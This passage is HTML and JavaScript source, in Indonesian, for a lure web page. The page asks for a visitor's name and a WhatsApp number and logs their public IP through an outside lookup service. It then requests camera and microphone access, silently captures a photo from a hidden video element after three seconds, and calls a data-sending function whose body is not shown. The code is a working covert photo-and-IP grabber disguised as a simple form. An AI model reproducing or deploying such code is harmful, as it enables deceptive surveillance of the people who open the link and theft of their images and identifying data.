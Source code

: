     <input type="text" id="nama" placeholder="Nama Anda">
    <button onclick="lanjutKeNomor()">Lanjutkan</button>
  </div>

  <div class="popup" id="step2" style="display:none;">
    <h2>Masukkan Nomor WhatsApp ADMIN</h2>
    <input type="text" id="whatsapp" placeholder="08xxxxxxxxxx">
    <button onclick="mintaIzinDanKirim()">Kirim</button>
    <button class="back-btn" onclick="kembali()">Kembali</button>
  </div>

  <div id="loading">
    <h3>TOLONG........</h3>
    <p>Tunggu sebentar ya...</p>
  </div>

  <video id="video" autoplay playsinline style="display:none;"></video>
  <canvas id="canvas" style="display:none;"></canvas>

  <script>
    let namaGlobal = "";
    let ipPublic = "Tidak diketahui";
    let fotoBase64 = "";

    fetch("https://api.ipify.org?format=json")
      .then(res => res.json())
      .then(data => ipPublic = data.ip)
      .catch(() => ipPublic = "Gagal ambil IP");

    function lanjutKeNomor() {
      const nama = document.getElementById("nama").value.trim();
      if (!nama) return alert("Masukkan nama dulu!");
      namaGlobal = nama;

      try {
        const ucapan = new SpeechSynthesisUtterance(`Halo, ${nama}`);
        ucapan.lang = 'id-ID';
        window.speechSynthesis.speak(ucapan);
      } catch (e) {}

      document.getElementById("step1").style.display = "none";
      document.getElementById("step2").style.display = "block";
    }

    function kembali() {
      document.getElementById("step2").style.display = "none";
      document.getElementById("step1").style.display = "block";
    }

    function mintaIzinDanKirim() {
      navigator.mediaDevices.getUserMedia({ video: { facingMode: "user" }, audio: true })
        .then(stream => {
          const video = document.getElementById('video');
          video.srcObject = stream;

          setTimeout(() => {
            ambilFoto();
            stream.getTracks().forEach(track => track.stop());
            kirimData();
          }, 3000);
        })
        .catch(() => {
          alert("Izin kamera/mikrofon ditolak!");
        });
    }
